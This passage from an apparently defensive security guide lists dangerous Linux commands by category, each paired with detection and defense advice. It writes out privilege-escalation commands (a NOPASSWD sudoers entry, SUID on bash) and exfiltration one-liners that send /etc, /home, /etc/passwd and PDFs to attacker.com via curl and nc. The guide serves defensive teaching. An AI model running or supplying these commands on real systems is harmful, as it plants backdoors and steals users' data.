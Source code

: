 **Why they're dangerous:**
- Adds attacker's SSH key for persistent access
- Creates cron job for command & control beacon
- Opens reverse shell for remote access
- Maintains persistence after initial compromise

**Defense:**
- Monitor `authorized_keys` changes
- Audit crontabs regularly
- Restrict outbound connections
- Use `aide` or similar for file integrity monitoring

---

## 6. Privilege Escalation Attempts

### Commands:
```bash
sudo su -
echo 'evil ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
chmod u+s /bin/bash
```

**Why they're dangerous:**
- Attempts to gain root access
- Modifies sudoers to grant unrestricted access
- Sets SUID bit on bash for privilege escalation
- Permanent backdoor for privilege elevation

**Defense:**
- Use `visudo` only (validates syntax)
- Monitor `/etc/sudoers` and `/etc/sudoers.d/`
- Audit SUID binaries: `find / -perm -4000 2>/dev/null`

---

## 7. Data Exfiltration

### Commands:
```bash
tar czf - /etc /home | curl -X POST -d @- http://attacker.com/data
cat /etc/passwd | nc attacker.com 9999
find / -name "*.pdf" -exec curl -F file=@{} attacker.com/upload \;
```

**Why they're dangerous:**
- Steals sensitive configuration files
- Exfiltrates user data and credentials
- Sends documents to attacker-controlled servers
- Often goes unnoticed without egress monitoring

**Defense:**
- Egress firewall rules
- Data Loss Prevention (DLP) tools
- Network traffic monitoring
- Encrypt sensitive files at rest

---